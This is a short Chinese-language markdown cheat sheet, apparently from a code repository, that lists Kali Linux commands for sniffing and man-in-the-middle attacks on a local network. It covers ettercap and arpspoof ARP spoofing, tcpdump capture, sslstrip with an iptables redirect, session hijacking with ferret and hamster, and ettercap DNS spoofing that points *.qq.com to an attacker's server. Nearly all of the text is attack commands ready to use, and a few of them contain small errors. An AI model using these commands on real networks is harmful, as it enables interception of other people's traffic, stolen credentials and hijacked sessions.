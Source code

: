 <h3>嗅探，arp欺骗，会话劫持</h3>
工具：`Kali Linux` [`ettercap`](http://www.91ri.org/4408.html)
第一次需要配置
```
   /etc/ettercap/etter.conf
   ec_uid = 0
   ec_gid = 0
   [linux]
   if you use iptables 这行，将下面#去掉，打开转发。
```
```
   
   /etc/NetworkManager/NetworkManager.conf 
   [ifupdown]
   managed=true
```

改完后重启NetworkManager

```
   service network-manager restart
```

```
    cat /proc/sys/net/ipv4/ip_forward
    echo 1>>/proc/sys/net/ipv4/ip_forward
```

ettercap 
```
    ettercap -T -M arp /// /// -q -i eth0
```
第一个 `///` 是嗅探目标 --IP地址 <br>
第二个 `///` 是嗅探网络 --网关地址
`eth0` 是网卡编号

driftnet 显示访问图片
```
    driftnet -i eth0
```

arpspoof  (同样需要开启路由转发)
```
    arpspoof -i eth0 -t 被攻击者ip 攻击者ip
```

<h4>数据包捕获</h4>
tcpdump wireshark(图形界面) <br>
```
    tcpdump -i eth0 -w text.txt
```
drafnet

<h4>SSL数据嗅探</h4>
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
sslstrip -p -l 10000 -w log.txt
之后开启ARP欺骗工具
用完记得取消 -A -> -D
```

<h4>session劫持-arp欺骗</h4>
```
    arpspoof -i eth0 -t 192.168.14.2 192.168.14.132
    tcpdump -i eth0 -w text.cap
    ferret -r text.cpp
    hamster
    设置代理
    http://hamster
```

<h4>session劫持-DNS欺骗</h4>
```
    使用ettercap进行arp欺骗
    vi /etc/ettercap/etter.dns
    *.qq.com A 183.175.12.144
    //修改dns到自己的服务器
    dns_spoof
```